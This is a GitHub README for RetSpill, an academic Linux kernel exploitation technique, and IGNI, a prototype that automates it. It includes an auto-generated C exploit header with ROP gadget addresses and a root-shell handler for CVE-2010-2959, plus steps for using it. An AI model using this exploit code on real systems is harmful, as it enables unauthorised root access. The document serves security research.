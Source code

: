 # RetSpill

RetSpill is a Linux kernel exploitation technique.

It uses the fact that there are already user-controllable data readily on the kernel stack when attackers obtain CFHP (control-flow hijacking primitive).
Since the kernel stack for a specific thread (task) is shared, attackers can spill controlled data on the kernel stack before hand, and use stack shifting gadgets to redirect the control-flow (when CFHP is obtained) to the controlled region to launch code-reuse attack.

Using clever downstream usage of this fact, a CFHP can be turned into unlimited arbitrary read/write/execute without sacrificing the exploit reliability for heap-based vulnerability. This is because we can overwrite the function pointer on heap with a stack-shifting gadget, and invoke the function pointer again and again in different task-context. Most importantly, in each invocation, the payload on stack can be different, leading to invoking different payload without manipulating the heap, thus without introducing exploit reliability degradation.

In this work, we demonstrate that this technique is so simple that it can be semi-automated with our prototype, IGNI.

This repository contains the dataset we used in the paper and our research prototype IGNI.

# Paper

To be presented at CCS 2023

# IGNI

The name is a reference to a magical sign, [Igni](https://witcher.fandom.com/wiki/Igni), in the video game [Witcher 3: Wild Hunt](https://witcher.fandom.com/wiki/Igni#The_Witcher_3:_Wild_Hunt).
Igni can cast a burst of flame to enemies and and set enemies on fire if they are spilled with flammable substances, just like userspace input ;).

## Setup

### Install Dependencies
TODO
~~~
cargo install ropr
~~~

### Build QEMU
v7.2.0
TODO

### Build File System Image
~~~
cd scripts/create-image/ && ./create-image.sh && cd ../..
~~~

## Sample Usage
Run the following command, where `<retspill>/exploit_env/CVEs/CVE-2010-2959/poc/poc` is a proof-of-concept binary that will crash the kernel at `PC==0xffffffffdeadbeef`.
~~~
python analyzer.py -k <retspill>/exploit_env/CVEs/CVE-2010-2959/kernel/arch/x86/boot/bzImage -e <retspill>/exploit_env/CVEs/CVE-2010-2959/poc/poc
~~~
After about 5-10 minutes, the system will output something like the following:
~~~
unsigned long pivot = 0xffffffff8194609e;
==============================================================
/******************************************************************/
/*************************AUTO GENERATED***************************/
#define _GNU_SOURCE
#ifndef va_start
#include <stdarg.h>
#endif
#ifndef assert
#include <assert.h>
#endif
#ifndef signal
#include <signal.h>
#endif
#ifndef sched_setaffinity
#include <sched.h>
#endif

// we need this because rcx may not be restored in the trampoline
// so it will crash during kernel-user switch
void get_shell(int signum) {
    printf("uid: %d\n", getuid());
    system("/bin/sh");
    while(1);
}

void __attribute__((constructor)) _igni_init() {
    signal(SIGSEGV, get_shell);
    signal(SIGTRAP, get_shell);
}

unsigned long _args[6];
unsigned long _arg_num = 0;
void __trigger()
{
    
    __asm__(".intel_syntax noprefix;"
            "push rbp;"

            "mov rcx, %0;"
            "mov rdi, [rcx+8*0];"
            "mov rsi, [rcx+8*1];"
            "mov rdx, [rcx+8*2];"
            "mov r10, [rcx+8*3];"
            "mov r8, [rcx+8*4];"
            "mov r9, [rcx+8*5];"

                        "mov rbx, 0xffffffff81e001bb;"
                        "mov rbp, 0xffffffff8244ab00;"
                        "mov r12, 0xffffffff810d0ad0;"
                        "mov r13, 0xffffffff81a373ec;"
                        "mov r10, 0xffffffff81c00162;"
            
            "mov rax, 16;"
            "syscall;"
            "pop rbp;"
            ".att_syntax;"
            : : "r"(_args));
}

void _trigger(int num_args, ...)
{
    va_list ap;
    va_start(ap, num_args);
    for(int i=0; i<num_args; i++) {
        _args[_arg_num++] = va_arg(ap, unsigned long);
    }
    va_arg(ap, unsigned long);
    va_end(ap);

    __asm__(".intel_syntax noprefix;"
            "call __trigger;"
            ".att_syntax;");
    _arg_num = 0;
    if(getuid() == 0) get_shell(0);
}

#define NUMARGS(...)  (sizeof((unsigned long[]){__VA_ARGS__})/sizeof(unsigned long))
#define ignite(...) _trigger(NUMARGS(__VA_ARGS__), __VA_ARGS__ )
/*************************AUTO GENERATED***************************/
/******************************************************************/
~~~

All you need to do is to:
1. include the generated header file
2. hijack the kernel control-flow to `unsigned long pivot = 0xffffffff8194609e;`
3. change how you invoke the triggering system call to `ignite(...)`
Then you can enjoy your root shell!!!

A sample result can be found at `<retspill>/exploit_env/CVEs/CVE-2010-2959/poc/exp.c` (the original is poc.c)
